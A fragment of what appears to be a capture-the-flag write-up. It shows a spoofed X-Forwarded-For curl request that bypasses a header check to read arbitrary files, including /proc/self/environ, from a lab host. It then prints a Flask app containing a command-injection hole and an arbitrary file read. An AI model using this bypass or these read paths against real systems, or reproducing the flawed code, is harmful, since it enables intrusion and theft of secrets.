 - /proc/self/cmdline
- /proc/self/environ

```shell
/usr/bin/python3/usr/local/gunicorn-w4-b0.0.0.0:1337main:app
```

![[Pasted image 20230918215920.png]]

- `/home/clumsyadmin/webapp`

```shell
curl -H "X-Forwarded-For: 127.0.0.1" http://192.168.245.134:13337/logs?file=/home/clumsyadmin/webapp/main.py -o main.py
```

```python
#!/usr/bin/env python3
from flask import Flask, jsonify, request, render_template, Response
from Crypto.Hash import MD5
import json, os, binascii
app = Flask(__name__)

@app.route(&#39;/&#39;)
def home():
    return(render_template(&#34;home.html&#34;))

@app.route(&#39;/update&#39;, methods = [&#34;POST&#34;])
def update():
    if request.headers[&#39;Content-Type&#39;] != &#34;application/json&#34;:
        return(&#34;Invalid content type.&#34;)
    else:
        data = json.loads(request.data)
        if data[&#39;user&#39;] != &#34;clumsyadmin&#34;:
            return(&#34;Invalid username.&#34;)
        else:
            os.system(&#34;curl {} -o /home/clumsyadmin/app&#34;.format(data[&#39;url&#39;]))
            return(&#34;Update requested by {}. Restart the software for changes to take effect.&#34;.format(data[&#39;user&#39;]))

@app.route(&#39;/logs&#39;)
def readlogs():
  if request.headers.getlist(&#34;X-Forwarded-For&#34;):
        ip = request.headers.getlist(&#34;X-Forwarded-For&#34;)[0]
  else:
        ip = &#34;1.3.3.7&#34;
  if ip == &#34;localhost&#34; or ip == &#34;127.0.0.1&#34;:
    if request.args.get(&#34;file&#34;) == None:
        return(&#34;Error! No file specified. Use file=/path/to/log/file to access log files.&#34;, 404)
    else:
        data = &#39;&#39;
        with open(request.args.get(&#34;file&#34;), &#39;r&#39;) as f:
            data = f.read()
            f.close()
        return(render_template(&#34;logs.html&#34;, data=data))
  else:
       return(&#34;WAF: Access Denied for this Host.&#34;,403)

@app.route(&#39;/version&#39;)
def version():
    hasher = MD5.new()
    appHash = &#39;&#39;
    with open(&#34;/home/clumsyadmin/app&#34;, &#39;rb&#39;) as f:
        d = f.read()
        hasher.update(d)
```